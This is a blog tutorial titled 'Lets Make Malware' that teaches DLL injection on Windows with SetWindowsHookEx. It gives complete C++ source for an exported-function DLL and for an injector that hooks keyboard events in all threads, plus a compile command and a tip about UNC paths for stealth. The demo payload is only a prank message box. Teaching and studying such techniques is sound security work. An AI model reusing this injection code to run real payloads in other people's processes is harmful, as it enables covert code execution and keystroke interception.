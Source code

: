 ```yaml
---
layout: post
title: Lets Make Malware - DLL Injection with SetWindowsHookEx
---
```


![Code](/assets/code.jpg)

# Preamble
This week, we will discuss another way of performing DLL injection. In our classic DLL injection example, we used 8 Windows API functions in our injector codebase. 

These were OpenProcess, VirtualAllocEx, WriteProcessMemory, CreateRemoteThread, GetProcAddress, GetModuleHandle, LoadLibrary, and WaitForSingleObject.

This time we will use just 4 API functions. 

The first thing we need is, of course, a DLL to use. For this, we will use the same codebase as last time with slight modifications. That code looked like this:

```cpp
#include "windows.h"
void execute() {
	MessageBox(NULL, "Don't call the cops bro. It's just a prank bro.", "You're already under my control", MB_OK);
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
	switch(fdwReason) { 
		case DLL_PROCESS_ATTACH:
			execute();
            		break;
        	case DLL_THREAD_ATTACH:
            		break;
        	case DLL_THREAD_DETACH:
            		break;
        	case DLL_PROCESS_DETACH:
            		break;
    		}    
    	return TRUE;  
}
``` 

# DLL Changes
The first thing we will change is removing our call to the “execute” function from the switch statement. It isn’t needed. 

Our second change will be to export our “execute” function. That means it will be able to be called from outside of our DLL. 

So, our code will now look like this:
```cpp
#include "windows.h"
extern "C" __declspec(dllexport) void execute() {
	MessageBox(NULL, "Don't call the cops bro. It's just a prank bro.", "You're already under my control", MB_OK);
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
	switch(fdwReason) { 
		case DLL_PROCESS_ATTACH:
            			break;
        		case DLL_THREAD_ATTACH:
            			break;
        		case DLL_THREAD_DETACH:
            			break;
        		case DLL_PROCESS_DETACH:
            			break;
    	}    
    	return TRUE;  
}
```

We can (cross) compile this the same way we did last time with the following command:

`x86_64-w64-mingw32-gcc –shared -o myEvilDLL.dll myEvilDLL.cpp`

# Injector
## LoadLibrary

Now, moving on to our injector code, our first API function is `LoadLibrary`. LoadLibrary does what it says on the tin can and we have already discussed its sole parameter, so we will not cover it again here.

## GetProcAddress

The next function we need is `GetProcAddress`. As we mentioned in the classic DLL injection post, this function locates the memory address of a function and returns it. We will use it in this case to find the address of our “execute” function within our malicious DLL. 

## SetWindowsHookEx
Next, we have the meat and potatoes of this whole operation: `SetWindowsHookEx`. 

As defined by MSDN, this function "_Installs an application-defined hook procedure into a hook chain. You would install a hook procedure to monitor the system for certain types of events. These events are associated either with a specific thread or with all threads in the same desktop as the calling thread._"

Put simply, this is the function that is doing our injection for us. When an event of our choosing occurs, such as a keypress, a function, also of our choosing, will run. 

SetWindowsHookEx is defined like so:
```cpp
HHOOK SetWindowsHookExA(
  [in] int       idHook,
  [in] HOOKPROC  lpfn,
  [in] HINSTANCE hmod,
  [in] DWORD     dwThreadId
);
```

Its first parameter, idHook, is the event we want to listen for. There are a few different ones we can choose from, but for this example, we will use WH_KEYBOARD or 2. This one, of course, is waiting for key strokes. 

The seconds parameter, lpfn, is the function we want to run once our chosen event happens. This will be our execute function in our DLL.

Thirdly, hmod is the handle to the library (DLL) we get from our call to LoadLibrary.

Finally, dwThreadId, is the PID of the thread we want to listen for our specified event in. Microsoft was nice enough to provide us with a way of listening in all threads by supplying 0 here. 

## UnhookWindowsHookEx

Our last API function call will be UnhookWindowsHookEx, as we are good citizens we clean up after ourselves. But prior to that, we will make use of the sleep function so key presses have time to occur and set off our malicious DLL function. 

UnhookWindowsHookEx only has one parameter: the return value of SetWindowsHookEx, a handle to the hook itself.

# All Together

All together our injector code looks like so:
```cpp
int main() {
  HMODULE malDll = LoadLibrary("myEvilDLL.dll");
  HOOKPROC executeFunc = (HOOKPROC) GetProcAddress(malDll, "execute");

  HHOOK hook = SetWindowsHookEx(WH_KEYBOARD, executeFunc, malDll, 0);
  Sleep(10*1000);
  UnhookWindowsHookEx(hook);

  return 0;
}
```

After running this, all we have to do is press any key while our sleep function executes, and our malicious DLL will run! 

If we want to make things a bit more stealthy, we could try utilizing UNC paths for our LoadLibrary function call again and see what happens!

# Resources 

[MSDN: GetProcAddress](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)

[MSDN: SetWindowsHookEx](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-setwindowshookexa)

[MSDN: LoadLibraryA](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)

[MSDN: Data Types](https://learn.microsoft.com/en-us/windows/win32/winprog/windows-data-types)

[WikiBooks: Data Types](https://en.wikibooks.org/wiki/Windows_Programming/Handles_and_Data_Types)
